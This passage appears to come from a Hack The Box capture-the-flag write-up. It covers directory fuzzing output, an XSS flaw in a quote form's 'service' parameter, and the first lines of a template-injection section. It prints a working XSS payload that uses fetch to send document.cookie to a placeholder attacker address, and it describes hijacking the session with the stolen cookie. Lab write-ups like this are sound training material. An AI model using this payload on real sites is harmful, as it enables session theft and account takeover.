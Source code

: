 ```bash
services                [Status: 200, Size: 8592, Words: 2325, Lines: 193, Duration: 84ms]
team                    [Status: 200, Size: 8109, Words: 2068, Lines: 183, Duration: 148ms]
quote                   [Status: 200, Size: 2237, Words: 98, Lines: 90, Duration: 108ms]
logout                  [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 97ms]
dashboard               [Status: 302, Size: 189, Words: 18, Lines: 6, Duration: 126ms]
choose                  [Status: 200, Size: 6084, Words: 1373, Lines: 154, Duration: 109ms]
                        [Status: 200, Size: 16697, Words: 4654, Lines: 349, Duration: 107ms]
:: Progress: [87664/87664] :: Job [1/1] :: 255 req/sec :: Duration: [0:04:23] :: Errors: 0 ::
```

While dashboard is not accessible, candidates for initial foothold are **login** page and **quote** page which could have some insecure inputs.
I've tested login page for some time, but with no success. Next on the list is quote page, which contains a hint on the initial foothold, as it suggests that page's management team reads the requests sent by a form. 

![02-quote](https://github.com/amalcew/htb-writeups/assets/73908014/7c5dd9f8-2100-4aad-8371-f6b000c299cb)

![image](https://github.com/amalcew/htb-writeups/assets/73908014/e3ec7c81-d1b8-4f3d-9fcd-d1957455f15b)

This means, that the page can be vulnerable to cookie exfiltration via XSS.

## Initial foothold

### XSS Cookie Exfiltration

As I've discovered, the page seems to be vulnerable to XSS attacks. Indeed, the vulnerability exists in insecure parameter `service`. To leverage this vulnerability, it is required to run HTTP server on attack machine and pass the XSS payload to the target. When someone (or something) access the infected page, the HTTP server should receive a exfiltrated cookie.
One of the method to achieve this is using the below payload (it should be percent-encoded) in `service` parameter:

```
<img src=x onerror=fetch("http://xx.xx.xx.xx:1234/"+document.cookie);>
```

As shown below, we can easily intercept the cookie:

![03-cookie_exfiltration](https://github.com/amalcew/htb-writeups/assets/73908014/e6639159-db68-437a-af10-9613d2c1c4d7)

After adding the cookie to the session (in the browser or in Burp) I've accessed the dashboard

![image](https://github.com/amalcew/htb-writeups/assets/73908014/ce1dd1dd-92ee-4391-8258-2740238de43d)

### Server-side Template Injection

As visible, the dashboard is quite simple and does not look like typical admin panel. These kind of panels can be vulnerable to many different attacks, as custom inputs can be improperly sanitized. The dashboard has two sub-pages with inputs, **invoice generator**:

![04-invoice_generator](https://github.com/amalcew/htb-writeups/assets/73908014/a6531f52-4b13-40ca-b3e4-ac8aa4c138be)
